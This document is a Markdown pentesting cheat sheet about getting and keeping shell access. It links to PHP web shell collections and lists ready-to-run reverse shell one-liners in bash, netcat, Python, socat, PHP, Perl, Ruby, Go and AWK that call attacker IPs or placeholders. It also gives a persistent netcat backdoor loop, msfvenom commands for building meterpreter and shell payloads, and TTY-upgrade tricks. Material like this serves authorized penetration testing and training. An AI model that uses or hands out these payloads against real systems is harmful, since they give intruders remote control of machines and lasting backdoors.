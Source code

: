 # Shells 
## Contents
- [Shells](#shells)
  * [Contents](#contents)
  * [Web shells](#web-shells)
  * [Debugging Shells](#debugging-shells)
  * [Reverse shell commands](#reverse-shell-commands)
  * [Msfvenom Payloads](#msfvenom-payloads)
  * [Upgrading to a pseudo terminal / TTY](#upgrading-to-a-pseudo-terminal---tty)

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash)  
[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell)  
[p0wney web shell](https://github.com/flozz/p0wny-shell)  
[white winter wolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)  
[collection of PHP webshells](https://github.com/JohnTroony/php-webshells/tree/master/Collection)    

    /usr/share/seclists/Web-Shells

## Debugging Shells   
executing a command and no response - maybe the command is redirecting to stderr not stdout?
2>&1
Check for versions / path variables  
No path variable? Need absolute path 

    /bin/bash -c 'id'   

## Reverse shell commands  
### Bash (requires /dev/tcp support, primarily found in RedHat/Debian distros):  
One bash version (compromised account's shell must be bash; does not work via www-data):  

    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1   
Two bash version (safer, since parent shell can be anything):    

    bash -c 'bash -i >& /dev/tcp/172.17.0.2/1337 0>&1'     
### netcat  
nc w/ -e (traditional):  

    rlwrap nc -e /bin/sh 172.16.5.1 4242   
    
    -e /bin/sh 
    -e /bin/bash
    -e /bin/zsh
    -e /bin/ash
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
    
Persistent netcat backdoor using a while loop or nohup:  

    while [1 ]; do echo "Started"; nc -l -p 443 -e /bin/sh; done     #goes away if user logs out, make persistent using nohup     
    no hup ./listener.sh &    #listener.sh: above line. Make a process keep running, ignores logout signal 
    
### other languages  
Python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
Python ipv6:

    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 

Perl 

    perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
Ruby 

    ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    
    
Golang 

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK

    awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 

[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)  

[Reverse and Bind Shells with Socat](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)

## Msfvenom Payloads 
[Reference](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)    

    msfvenom -l payloads      #list payloads    
    msfvenom -l encoders      #list encoders 
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
    
## Upgrading to a pseudo terminal / TTY     
[Reference](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)  
[What Happens in a Shell Upgrade?](What Happens In a "Shell Upgrade"?)   

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    script /dev/null -c bash      #create new pty owned by current user, fixed in newer versions of screen        
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

